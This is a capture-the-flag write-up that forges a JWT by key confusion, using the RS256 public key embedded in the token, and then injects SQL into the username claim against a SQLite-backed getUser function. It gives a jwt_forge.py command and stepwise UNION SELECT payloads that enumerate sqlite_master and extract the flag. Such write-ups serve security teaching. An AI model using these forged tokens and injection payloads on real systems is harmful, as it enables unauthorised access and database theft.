

# JWT Token - Key Confusion

Example Token:

```bash
eyJhbGciOiJSUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InRlc3QiLCJwayI6Ii0tLS0tQkVHSU4gUFVCTElDIEtFWS0tLS0tXG5NSUlCSWpBTkJna3Foa2lHOXcwQkFRRUZBQU9DQVE4QU1JSUJDZ0tDQVFFQTk1b1RtOUROemNIcjhnTGhqWmFZXG5rdHNiajFLeHhVT296dzB0clA5M0JnSXBYdjZXaXBRUkI1bHFvZlBsVTZGQjk5SmM1UVowNDU5dDczZ2dWRFFpXG5YdUNNSTJob1VmSjFWbWpOZVdDclNyRFVob2tJRlpFdUN1bWVod3d0VU51RXYwZXpDNTRaVGRFQzVZU1RBT3pnXG5qSVdhbHNIai9nYTVaRUR4M0V4dDBNaDVBRXdiQUQ3MytxWFMvdUN2aGZhamdwekhHZDlPZ05RVTYwTE1mMm1IXG4rRnluTnNqTk53bzVuUmU3dFIxMldiMllPQ3h3MnZkYW1PMW4xa2YvU015cFNLS3ZPZ2o1eTBMR2lVM2plWE14XG5WOFdTK1lpWUNVNU9CQW1UY3oydzJrekJoWkZsSDZSSzRtcXVleEpIcmEyM0lHdjVVSjVHVlBFWHBkQ3FLM1RyXG4wd0lEQVFBQlxuLS0tLS1FTkQgUFVCTElDIEtFWS0tLS0tXG4iLCJpYXQiOjE2NDM4NzE0NDR9.6mcAhg1nfLyu0WMnDQrL-DkMdZ5iJ6CYxHciv2jCtbzBHK1dAg2PB31JQwe9pjocHyNb2682jk0pmNbz_8V7C0llSKz79P0fi5kSQFeC9_UUlLWL3j4kmeL7VnMknlQpVfo0M7M67w6qlbHUqmxbZKzqw9jmcHgcxCtHziCo-j6eZCPcYHGx-7GVfk4KkEWh1NjD1dfOZI8nruKyIS_IAx0oT9P6a_Qfa15bpLAnxTRNUzYJONHoVItMY4zyHvPjt_vjQ-jmC4RCwLKqiqfs4SNPFTcuS8dqJehtIGZSUfuCVhnwkxzu2s7hO82f0nCMFrckAih1LlqaqXED0bWmGQ
```

Decoded:

```bash
Header:
{
  "alg": "RS256",
  "typ": "JWT"
}

Payload:
{
  "username": "test",
  "pk": "-----BEGIN PUBLIC KEY-----\nMIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY\nktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi\nXuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg\njIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH\n+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx\nV8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr\n0wIDAQAB\n-----END PUBLIC KEY-----\n",
  "iat": 1643870751
}
```

## Vulnerable Code



We see there are 4 functions inside this module and of them is `getUser` function as expected. getUser function requires username to be passed on and it will query the database to get the data about the username.

If we see the detail, we know that `getUser` is vulnerable to SQL injection because it takes the username and directly appends to the existing query.

So, this concludes our plan, they want us to modify the JWT and somehow bypass the JWT validation check and use SQL injection to get the information that we need.

## Exploit JWT + SQL Injection

### Tools used

[JWT_Forge](https://gist.github.com/wulfgarpro/3e87ae77a7107a3e3a2453eb38a3de20)

Public Key extracted from the original JWT:

```bash
-----BEGIN PUBLIC KEY-----
MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA95oTm9DNzcHr8gLhjZaY
ktsbj1KxxUOozw0trP93BgIpXv6WipQRB5lqofPlU6FB99Jc5QZ0459t73ggVDQi
XuCMI2hoUfJ1VmjNeWCrSrDUhokIFZEuCumehwwtUNuEv0ezC54ZTdEC5YSTAOzg
jIWalsHj/ga5ZEDx3Ext0Mh5AEwbAD73+qXS/uCvhfajgpzHGd9OgNQU60LMf2mH
+FynNsjNNwo5nRe7tR12Wb2YOCxw2vdamO1n1kf/SMypSKKvOgj5y0LGiU3jeXMx
V8WS+YiYCU5OBAmTcz2w2kzBhZFlH6RK4mquexJHra23IGv5UJ5GVPEXpdCqK3Tr
0wIDAQAB
-----END PUBLIC KEY-----
```

### Inject SQL into the username

Modify our JWT Token and inject a SQL injection in the username:

```bash
python3 jwt_forge.py $(cat jwt.token) "test' and 1=2 UNION SELECT 1,group_concat(top_secret_flaag),3 from flag_storage -- -"
```

So I simply put my injection code inside the payload value under the username payload claim/payload key. Below is my injection steps:

1. Find the column count

We need to identify how many columns does the first query select (since it uses * which means all columns).

**Payload:**

```bash
test' union select 1,1,1--;
```

This type of information gathering is true or false based. If the column count is the same, then the query will execute as a normal query, otherwise, it will throw the error message (“SQLite3 error on line ……”)

1. Find the selected column to display

We need to identify which columns will be fetched and be displayed by the application. For example, the columns might be id, username, and status. When the application prints the username, then we know that the selected column is the second one. This is important for our next move.

**Payload**:

```bash
test' union select 1,2,3--;
```

This type of information gathering is result-based which means, the behavior can be examined through the output. If the second column is used then it will prints “2” (just because we put number 2 in the second column)

1. Get the tables

We need to identify the tables where we will query the information from. Every database engine has its own way, this is specific for SQLite3.

**Payload:**

```bash
test' union select 1, name, 2 from sqlite_master where type=’table’ limit 1 offset 0--
```

By using this payload, the current username will be replaced by the first table name. Because the jwt_tool we can not use the “%” sign (somehow it throws an error), therefore we need to improvise a little bit using limit 1 offset x. It also helps to get more information if the table we want is not the first table.

1. Get the columns

We need to identify the columns inside the table we want. Every database engine has its own way, this is specific for SQLite3.

**Payload:**

```bash
test' union select 1, sql,2 from sqlite_master where tbl_name = ‘*censored*’ and type = ‘table’ limit 1 offset 0--
```

1. Get the flag

Finally, we will query the table and get the flag.

**Payload:**

```bash
test' union select 1,*cencored*,2 from *censored* limit 1 offset 0--
```

By using this payload, the current username will be replaced by the flag.